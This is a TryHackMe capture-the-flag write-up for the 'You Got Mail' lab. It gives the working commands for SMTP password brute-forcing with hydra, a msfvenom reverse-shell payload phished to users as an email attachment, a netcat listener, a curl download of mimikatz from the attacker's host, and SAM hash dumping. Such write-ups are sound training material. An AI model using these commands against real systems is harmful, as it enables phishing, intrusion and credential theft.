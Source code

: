 ```yaml
---
title: "TryHackMe: You Got Mail"
author: jaxafed
categories: [TryHackMe]
tags: [web, brute-force, hydra, cewl, phishing, post-exploitation]
render_with_liquid: false
media_subpath: /images/tryhackme_you_got_mail/
image:
  path: room_image.webp
---
```


**You Got Mail** started with basic enumeration to discover a list of email addresses and create a custom wordlist to find the password for one of them. We then used this account to send phishing emails to other discovered email addresses with an executable attachment to gain a shell. After obtaining a shell, we performed some post-exploitation to discover two passwords and complete the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/yougotmail){: .center }

## Initial Enumeration

### Nmap Scan

Starting with an `nmap` scan, we can see that, apart from some of the usual `Windows` services, there are also mail-related services running.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.118.67
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: NAMESPACE QUOTA CHILDREN IMAP4 CAPABILITY completed OK IMAP4rev1 RIGHTS=texkA0001 ACL IDLE SORT
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Application

Along with the target, we are also given a website at `https://brownbrick.co/`, where we find a static site.

![Brownbrick Index](brownbrick_index.webp){: width="1200" height="600"}

Checking the **Our Team** section at `https://brownbrick.co/menu.html`, we can find a couple of email addresses.

![Brownbrick Menu](brownbrick_menu.webp){: width="1200" height="600"}

## Shell as wrohit

From the emails, we can create a wordlist as follows:

```
fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```
{: file="emails.txt" }

Using the web application, we can also create a custom wordlist for passwords using `cewl`:

```console
$ cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Using `hydra` to test these passwords against the email addresses we found, we are able to discover the password for the `lhedvig@brownbrick.co` email account:

```console
$ hydra -L emails.txt -P passwords.txt 10.10.118.67 smtp -s 587 -t 16
...
[587][smtp] host: 10.10.118.67   login: lhedvig@brownbrick.co   password: bricks
...
```

Now that we have valid credentials, we can use them to send emails to other users.

First, we create a reverse shell executable to use as an attachment with `msfvenom`:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe -o shell.exe
```

Then, using our email list, we can use `sendemail` to send emails with our executable as an attachment to the other users:

```console
$ for email in $(cat emails.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.118.67:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```
{: .wrap }

With this, we can see that our executable is executed by one of the users, granting us a shell as `wrohit` and we can then read the flag located at `C:\Users\wrohit\Desktop\flag.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.118.67] 49773
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Mail\Attachments>whoami
brick-mail\wrohit
C:\Mail\Attachments>type C:\Users\wrohit\Desktop\flag.txt
THM{[REDACTED]}
```

## Finding the Passwords

### Password of wrohit

At this point, since we are a member of the `Administrators` group, we can simply upload **Mimikatz** to the machine and use it to dump the hashes from the `SAM` registry as follows:

```
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```

We can then use **[CrackStation](https://crackstation.net/)** to crack the hash and recover the password for the user.

![Crackstation One](crackstation_one.webp){: width="1000" height="100"}

> There are also many other ways we could have achieved the same goal. For example, we could also obtain the user's hash using the `sekurlsa::msv` module or directly retrieve the password using `sekurlsa::wdigest` instead of cracking the hash. Alternatively, in a scenario where we did not have permissions to run these modules, since we already have a shell as the `wrohit` user, we could have run **responder** on our machine and used the existing shell to force authentication to our server, capturing the hash for the user and cracking it.
{: .prompt-tip }

### Password for hMail Dashboard

Lastly, we are tasked with finding the password for the **hMailServer Administrator Dashboard**, which we can find in hashed form inside the `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI` configuration file:

```
C:\>type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
...
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
...
```

Once again, using **[CrackStation](https://crackstation.net/)** to crack the hash, we can retrieve the password and complete the challenge.

![Crackstation Two](crackstation_two.webp){: width="1000" height="100"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>